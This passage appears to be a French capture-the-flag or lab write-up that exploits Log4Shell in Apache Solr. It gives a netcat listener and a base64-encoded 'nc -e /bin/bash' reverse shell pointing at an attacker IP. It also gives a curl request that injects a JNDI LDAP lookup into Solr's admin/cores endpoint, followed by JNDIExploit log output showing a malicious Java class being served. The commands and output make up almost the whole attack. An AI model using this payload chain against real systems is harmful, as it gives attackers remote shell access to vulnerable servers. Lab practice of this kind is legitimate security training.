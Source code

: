 Lancer :
```
nc -lnvp 9999
```

### Exécution : appel à solr

Sur [https://www.base64encode.org/](https://www.base64encode.org/) encoder `nc 10.9.2.236 9999 -e /bin/bash`

Résultat :
```
bmMgMTAuOS4yLjIzNiA5OTk5IC1lIC9iaW4vYmFzaA==
```
Puis :
```
curl 'http://10.10.106.228:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.2.236:1389/Basic/Command/Base64/bmMgMTAuOS4yLjIzNiA5OTk5IC1lIC9iaW4vYmFzaA==\}'
```
(`10.10.106.228` est l'IP de la machine cible)

*note* : pour info, JNDIExploit retourne bien des payloads de classes Java sérialisées, quand on le requête avec une LDAP URL.
```
[+] Send LDAP reference result for Basic/Command/Base64/bmMgMTAuOS4yLjIzNiA5OTk5IC1lIC9iaW4vYmFzaA== redirecting to http://10.9.2.236:8888/ExploitXlJafSwxR8.class
[+] New HTTP Request From /10.10.106.228:43946  /ExploitXlJafSwxR8.class
[+] Receive ClassRequest: ExploitXlJafSwxR8.class
```